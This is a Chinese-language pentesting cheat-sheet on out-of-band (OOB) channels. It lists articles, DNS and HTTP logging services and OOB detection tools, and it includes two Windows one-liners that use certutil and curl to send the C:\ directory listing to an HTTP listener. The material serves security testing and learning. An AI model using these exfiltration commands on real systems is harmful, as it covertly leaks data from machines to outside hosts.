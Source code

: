 # OOB

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关文章**
- [带外通道技术（OOB）总结](https://www.freebuf.com/articles/web/201013.html)
- [OOB（out of band）分析系列之DNS渗漏](https://www.freebuf.com/vuls/138838.html)
- [Burpsuite之BurpCollaborator模块介绍](https://www.jianshu.com/p/92b4b8ddf12f)
- [Gaining persistent access to Burp Suite's Collaborator sessions - a step-by-step guide](https://www.onsecurity.co.uk/blog/gaining-persistent-access-to-burps-collaborator-sessions)
- [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator)
- [HTTP BLIND](https://echocipher.github.io/2019/07/22/HTTP-BLIND/)

**在线监控平台**
- http://ceye.io/
- https://webhook.site
- http://www.dnslog.cn/
- https://iplogger.org/

**工具**
- [uknowsec/SharpNetCheck](https://github.com/uknowsec/SharpNetCheck) - 该工具可以在 dnslog 中回显内网 ip 地址和计算机名，可实现内网中的快速定位可出网机器。
- [Buzz2d0/Hyuga](https://github.com/Buzz2d0/Hyuga) - 一个用来检测带外(Out-of-Band)流量(DNS查询和HTTP请求)的监控工具。
- [ztgrace/mole](https://github.com/ztgrace/mole) - 识别和利用out-of-band (OOB)漏洞的burp扩展

**平台搭建**
- [BugScanTeam/DNSLog](https://github.com/BugScanTeam/DNSLog) - DNSLog 是一款监控 DNS 解析记录和 HTTP 访问记录的工具。
- [lanyi1998/DNSlog-GO](https://github.com/lanyi1998/DNSlog-GO) - DNSLog-GO 是一款 golang 编写的监控 DNS 解析记录的工具，自带 WEB 界面
- [chennqqi/godnslog](https://github.com/chennqqi/godnslog)

---

# HTTP

**Windows**

- certutil

    使用 certutil 请求证书文件，并将下载文件重定向到 nul，无缓存、无需浏览器实现发起 http 请求
    ```bash
    for /F %x in ('dir /b c:\') do certutil -urlcache -split -f "http://127.0.0.1:8000/?result=%x" nul
    ```

- curl

    win10 等环境支持 curl
    ```bash
    for /F %x in ('dir /b c:\') do curl http://127.0.0.1:8000/%x
    ```
